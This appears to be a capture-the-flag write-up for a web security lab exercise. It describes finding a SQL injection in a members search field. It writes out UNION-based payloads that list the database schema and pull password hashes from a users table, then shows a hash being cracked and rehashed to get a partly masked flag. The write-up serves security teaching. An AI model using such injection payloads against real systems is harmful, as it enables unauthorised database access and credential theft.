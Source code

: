# First step

In the members page, the search field gives a feeling to try an SQL injection to get all the table names and its columns names information from the database

# How to do that

I send the query
```
1 OR 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME  FROM INFORMATION_SCHEMA.COLUMNS
```

then after a lot of checks we checks only on the users table
```
1 OR 1=1 UNION SELECT Commentaire, countersign FROM users
```
the original query:
```
SELECT * FROM users WHERE id = 'user_input';
```

after inject the script and send it as an userId:
```
SELECT * FROM users WHERE id = 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users;
```
So the result is a table of users it's gonna be like that:
```
ID: 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

After derypting the surname  we get: FortyTwo
which is is in lowercase fortytwo

Then we use the Sh256 encryption to get the flag:
```
9995cae900a927ab1500d317dfcXXXXXXXXXXXXXXXXXXXXX
```

